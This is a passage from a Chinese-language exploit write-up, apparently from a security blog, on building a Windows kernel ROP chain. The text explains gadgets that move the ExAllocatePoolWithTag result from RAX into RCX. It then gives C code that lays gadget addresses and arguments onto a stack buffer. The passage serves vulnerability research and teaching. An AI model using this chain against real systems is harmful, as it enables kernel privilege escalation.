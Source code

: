 这样就能让 rcx=rax 了，布局后栈的情况

```plain
ulExAllocatePoolWithTag
pop_rdi
pop_rcx
push_rax_rdi
```

1.  `pop rdi`：`RDI` =`pop rcx地址`，出栈一个，`rsp`指向`push_rax_rdi`，然后`ret`跳转到该地址
2.  `push rax`：将申请的内核内存地址放到了栈上，`rsp`指向值就为该内存的地址
3.  `push rdi; ret`：等效于`jmp rdi`，于是`ret`到了`pop rcx`
4.  `pop rcx`：此时的栈顶为 2 中入栈的`rax`

[![](assets/1706090578-c6789214983ce68a1860afbaa71ee8c6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124145330-485857b4-ba85-1.png)

成功让`RCX=RAX`

[![](assets/1706090578-24ece56e2023e8a0e9bb01768102ab5b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124145339-4e2ab060-ba85-1.png)

这里暂时设计 payload

```plain
//typedef unsigned long long funcaddr;

    *(funcaddr*)(stackspace + 0x818) = (funcaddr)pop_rcx;
    *(funcaddr*)(stackspace + 0x818 + 8) = (funcaddr)0;
    *(funcaddr*)(stackspace + 0x818 + 0x10) = (funcaddr)pop_rdx;
    *(funcaddr*)(stackspace + 0x818 + 0x18) = (funcaddr)0x100;
    *(funcaddr*)(stackspace + 0x818 + 0x20) = (funcaddr)pop_r8;
    *(funcaddr*)(stackspace + 0x818 + 0x28) = (funcaddr)0xDEAD;
    *(funcaddr*)(stackspace + 0x818 + 0x30) = (funcaddr)ulExAllocatePoolWithTag;

    *(funcaddr*)(stackspace + 0x818 + 0x38) = (funcaddr)pop_rdi;    //rsp = 0
    *(funcaddr*)(stackspace + 0x818 + 0x40) = (funcaddr)pop_rcx;    //rdi = rcx --- been force to zero
    *(funcaddr*)(stackspace + 0x818 + 0x48) = (funcaddr)push_rax_rdi;//ret rdi: pop_rcx value changed

    *(funcaddr*)(stackspace + 0x818 + 0x50) = (funcaddr)pop_rdx;        //此处被低位被清零
```